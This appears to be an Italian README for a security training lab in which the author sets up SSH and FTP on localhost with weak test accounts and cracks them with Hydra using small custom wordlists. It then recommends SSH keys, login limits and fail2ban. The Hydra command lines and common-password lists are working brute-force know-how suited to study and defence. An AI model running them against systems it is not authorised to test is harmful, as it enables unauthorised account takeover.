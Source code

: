 # Progetto S6/L5: Brute Force SSH e FTP con Hydra

## **Obiettivo dell'Esercizio**

L'obiettivo dell'esercizio è stato duplice:
1. 🛡️ Fare pratica con lo strumento **Hydra** per effettuare attacchi di brute force sull'autenticazione di servizi di rete.
2. 🔧 Configurare i servizi SSH e FTP, consolidando la conoscenza di gestione e protezione dei servizi di rete.

---

## **Passaggi Seguiti**

### **1. Configurazione del Servizio SSH**

1. **Creazione dell'utente per il test**:
   ```bash
   sudo adduser test_user
   ```
   - Nome utente: `test_user`
   - Password: `testpass`

2. **Attivazione del servizio SSH**:
   ```bash
   sudo service ssh start
   ```

3. **Modifica del file di configurazione SSH** (opzionale):
   - Per permettere configurazioni avanzate, abbiamo modificato `/etc/ssh/sshd_config`:
     ```bash
     sudo nano /etc/ssh/sshd_config
     ```
     - Esempio di modifica: 
       ```
       PermitRootLogin yes
       MaxStartups 10:30:60
       ```
   - Riavvio del servizio SSH:
     ```bash
     sudo service ssh restart
     ```

4. **Verifica del servizio SSH**:
   - Recupero dell'indirizzo IP:
     ```bash
     ifconfig
     ```
   - Test della connessione:
     ```bash
     ssh test_user@127.0.0.1
     ```

### **2. Creazione delle Wordlist Personalizzate**

Abbiamo creato due file di wordlist per simulare un attacco mirato:

- **Wordlist delle password**:
  ```bash
  echo -e "password\n123456\nadmin123\ntestpass\nqwerty\nletmein\npassword1\nwelcome\n12345678\nchangeme\nroot123\ntoor\niloveyou\nsecurepass\npassword123" > passwords.txt
  ```

- **Wordlist dei nomi utente**:
  ```bash
  echo -e "test_user\nadmin\nroot\nuser1\nguest\noperator\nsupport\nmanager\ndeveloper\nservice\nbackup\ntester\naccount\nsuperuser\nsysadmin" > usernames.txt
  ```

### **3. Utilizzo di Hydra per il Brute Force su SSH**

Abbiamo utilizzato **Hydra** per effettuare il brute force sul servizio SSH:

1. **Comando per Hydra**:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```
   - `-L usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server SSH (localhost).
   - `-t 1`: Esegue un thread alla volta per evitare errori di connessione.

2. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `test_user`
     - Password: `testpass`

### **4. Configurazione del Servizio FTP**

1. **Installazione del server FTP**:
   ```bash
   sudo apt-get install vsftpd -y
   ```

2. **Avvio del servizio FTP**:
   ```bash
   sudo service vsftpd start
   ```

3. **Modifica del file di configurazione FTP**:
   - Disabilitazione dell'accesso anonimo e abilitazione degli utenti locali:
     ```bash
     sudo nano /etc/vsftpd.conf
     ```
     Modifiche effettuate:
     ```
     anonymous_enable=NO
     local_enable=YES
     ```
   - Riavvio del servizio FTP:
     ```bash
     sudo service vsftpd restart
     ```

4. **Creazione dell'utente per il test FTP**:
   ```bash
   sudo adduser ftp_user
   ```
   - Nome utente: `ftp_user`
   - Password: `ftp_pass`

### **5. Utilizzo di Hydra per il Brute Force su FTP**

1. **Creazione delle wordlist personalizzate**:
   - File dei nomi utente:
     ```bash
     echo -e "ftp_user\nadmin\nroot\nguest\nuser1" > ftp_usernames.txt
     ```
   - File delle password:
     ```bash
     echo -e "123456\npassword\nftp_pass\nadmin123\nwelcome" > ftp_passwords.txt
     ```

2. **Comando per Hydra**:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
   - `-L ftp_usernames.txt`: Specifica il file delle wordlist per i nomi utente.
   - `-P ftp_passwords.txt`: Specifica il file delle wordlist per le password.
   - `127.0.0.1`: Indica il server FTP (localhost).
   - `-t 1`: Esegue un thread alla volta.

3. **Risultato**:
   - ✅ Hydra ha identificato con successo la combinazione:
     - Nome utente: `ftp_user`
     - Password: `ftp_pass`

---

## **Conclusioni e Considerazioni**

L'esercizio ha dimostrato:
1. 💡 L'efficacia degli attacchi brute force con dizionari mirati.
2. 🔐 La necessità di proteggere i servizi di rete configurando correttamente il file di configurazione e implementando sistemi di rilevamento come `fail2ban`.

### **Miglioramenti Suggeriti per la Sicurezza**
- **Usare chiavi SSH** invece delle password.
- **Limitare i tentativi di login** e disabilitare utenti inutilizzati.
- **Configurare fail2ban** per bloccare tentativi ripetuti.

---

## **File Utilizzati**

- `usernames.txt`: Wordlist per i nomi utente SSH.
- `passwords.txt`: Wordlist per le password SSH.
- `ftp_usernames.txt`: Wordlist per i nomi utente FTP.
- `ftp_passwords.txt`: Wordlist per le password FTP.

Questi file sono inclusi nella directory del progetto per eventuali test futuri.

---

## **Comandi Chiave Riassunti**

1. Creazione dell'utente SSH:
   ```bash
   sudo adduser test_user
   ```

2. Attivazione del servizio SSH:
   ```bash
   sudo service ssh start
   ```

3. Creazione dell'utente FTP:
   ```bash
   sudo adduser ftp_user
   ```

4. Avvio del servizio FTP:
   ```bash
   sudo service vsftpd start
   ```

5. Esecuzione di Hydra su SSH:
   ```bash
   hydra -L usernames.txt -P passwords.txt 127.0.0.1 -t 1 ssh
   ```

6. Esecuzione di Hydra su FTP:
   ```bash
   hydra -L ftp_usernames.txt -P ftp_passwords.txt 127.0.0.1 -t 1 ftp
   ```
